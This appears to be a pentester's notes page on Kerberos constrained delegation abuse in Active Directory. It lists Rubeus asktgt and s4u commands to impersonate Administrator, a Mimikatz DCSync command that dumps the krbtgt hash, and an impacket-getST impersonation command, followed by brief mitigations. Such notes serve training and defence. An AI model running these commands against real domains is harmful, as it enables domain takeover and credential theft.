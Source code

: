 # Kerberos Constrained Delegation

### User Account <a href="#user-account" id="user-account"></a>

#### Prerequisites <a href="#prerequisites" id="prerequisites"></a>

Hunting for user accounts that have kerberos-constrained delegation enabled:

{% code title="" %}
```bash
Get-NetUser -TrustedToAuth
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endcode %}

In the below screenshot, the user `spot` is allowed to delegate or in other words, impersonate any user and authenticate to a file system service (CIFS) on a domain controller DC01.

User has to have an attribute `TRUSTED_TO_AUTH_FOR_DELEGATION` in order for it to be able to authenticate to the remote service.

> TRUSTED\_TO\_AUTH\_FOR\_DELEGATION - (Windows 2000/Windows Server 2003) The account is enabled for delegation. This is a security-sensitive setting. Accounts that have this option enabled should be tightly controlled. This setting lets a service that runs under the account assume a client's identity and authenticate as that user to other remote servers on the network.
>
> [https://support.microsoft.com/en-gb/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties](https://support.microsoft.com/en-gb/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties)
>
>

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
rubeus.exe asktgt /user:userName /domain:DomainName /ntlm:Hash /outfile:FileName.tgt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (30).png" alt=""><figcaption><p>TGT ticket for the websvc account.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
.\Rubeus.exe s4u /ticket:TGT_Ticket /msdsspn:"service/HOST" /impersonateuser:Administrator /ptt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

```bison
invoke-Mimikatz -command '"lsadump::dcsync /user:abdo\krbtgt "'
```

<figure><img src="../../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
impacket-getST   -k -impersonate administrator -spn cifs/HayStack.thm.corp -dc-ip 10.10.43.21 thm.corp/DARLA_WINTERS
```
{% endcode %}

## Mitigation <a href="#id-660b" id="id-660b"></a>

* To mitigate against the abuse of delegated accounts, we can ensure that the privileged accounts are configured to “_Account is sensitive and cannot be delegated”_ within the Active Directory or added to the Protected User group to prevent delegation.
* If delegation is needed for specific accounts, they should be secured with firewall rules that only serve the purpose and delegation to the required service and limit any other privileged access that might not be necessary.
* Also, ensure the delegated accounts use strong passwords to protect them against attacks like Kerberoasting.

## �&#xDCDA;**$\_References** <a href="#id-6572" id="id-6572"></a>

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview?source=post_page-----4a0eddc5bb13--------------------------------" %}

{% embed url="https://stealthbits.com/blog/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/?source=post_page-----4a0eddc5bb13--------------------------------" %}

{% embed url="https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation?source=post_page-----4a0eddc5bb13--------------------------------" %}
